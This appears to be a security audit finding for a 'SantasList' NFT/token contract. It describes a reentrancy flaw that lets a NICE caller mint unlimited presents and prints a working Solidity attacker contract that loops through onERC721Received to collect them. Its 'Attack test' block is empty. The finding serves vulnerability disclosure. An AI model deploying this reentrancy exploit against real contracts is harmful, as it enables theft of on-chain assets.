 ## Summary
It's possible to mint any amount of tokens using `buyPresent` function when the caller is NICE or EXTRA_NICE and has at least 1e18 Santa tokens on the balance.
## Vulnerability Details
If the caller is a contract, the issue occurs because it's possible to call `collectTokens()` which is vulnerable to reentrancy. 

Here is possible attacker's contract: 
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import "@openzeppelin/contracts/access/Ownable.sol";
import "forge-std/console.sol";

interface ISantasList {
    function collectPresent() external;
    function buyPresent(address presentReceiver) external;
    function balanceOf(address owner) external returns (uint256);
    function transferFrom(address from, address to, uint256 tokenId) external;
}

contract BuyPresentAttack is Ownable {
    ISantasList santasList;

    uint256 counter = 0;
    uint256 public constant WISHED_AMOUNT_OF_TOKENS = 500;

    constructor(address _santasListAddress) Ownable(msg.sender) {
        santasList = ISantasList(_santasListAddress);
    }

    function attack(address otherAddress) public onlyOwner {
        // Call the vulnarable function.
        santasList.buyPresent(otherAddress);
    }

    // When msg.sender is a contract,
    // _safeMint from SantasList will trigger onERC721Received()
    function onERC721Received(address from, address, /*to*/ uint256 tokenId, bytes memory /* data */ )
        public
        returns (bytes4)
    {
        if (counter < WISHED_AMOUNT_OF_TOKENS) {
            // transfer tokens to attacker
            // in order to bypass balance check in collectPresent()
            santasList.transferFrom(from, owner(), tokenId);
            counter++;
            santasList.collectPresent();
        }

        counter = 0;

        // Return onERC721Received.selector
        // in order not to revert in _safeMint() -> __checkOnERC721Received()
        return 0x150b7a02;
    }
}
``` 
Attack test: 
```
```